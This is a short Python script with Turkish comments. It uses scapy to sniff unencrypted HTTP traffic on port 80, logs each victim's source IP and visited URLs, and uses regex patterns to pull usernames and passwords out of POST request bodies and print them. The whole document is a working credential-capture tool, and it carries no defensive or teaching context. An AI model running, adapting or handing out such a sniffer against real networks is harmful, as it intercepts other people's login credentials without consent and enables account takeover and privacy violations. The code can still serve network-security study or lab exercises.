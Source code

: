 from scapy.all import *
from scapy.layers.http import HTTPRequest  # HTTP isteklerini analiz etmek icin
import re

# Arayuzu belirtelim (genellikle eth0 veya wlan0 olur)
INTERFACE = "eth0"

# Kullanici adi ve sifreyi yakalamak icin regex desenleri
USERNAME_REGEX = re.compile(r".*(username|user|login|email)[^=]*=([^&]+)", re.IGNORECASE)
PASSWORD_REGEX = re.compile(r".*(password|pass|pwd)[^=]*=([^&]+)", re.IGNORECASE)

def packet_callback(packet):
    # Sadece HTTP istegi iceren paketleri incele
    if packet.haslayer(HTTPRequest):
        http_layer = packet[HTTPRequest]
        ip_layer = packet[IP]

        # Hedefin gittigi URL'yi yazdir
        url = f"http://{http_layer.Host.decode()}{http_layer.Path.decode()}"
        print(f"[+] HTTP Istegi: {ip_layer.src} -> {url}")

        # Eger paket bir POST istegi iceriyorsa icerigi yakala
        if packet.haslayer(Raw):
            load = packet[Raw].load.decode(errors='ignore')
            
            # Kullanici adi ve sifreleri arayalim
            username_match = USERNAME_REGEX.search(load)
            password_match = PASSWORD_REGEX.search(load)
            
            if username_match or password_match:
                print("\n[***] Kullanici Bilgisi Yakalandı!")
                if username_match:
                    print(f"Kullanici Adi: {username_match.group(2)}")
                if password_match:
                    print(f"Sifre: {password_match.group(2)}")
                print("\n")

# Paketleri dinlemeye basla
print(f"[+] {INTERFACE} arayuzu uzerinden HTTP trafiği dinleniyor...")
sniff(iface=INTERFACE, prn=packet_callback, store=0, filter="tcp port 80")
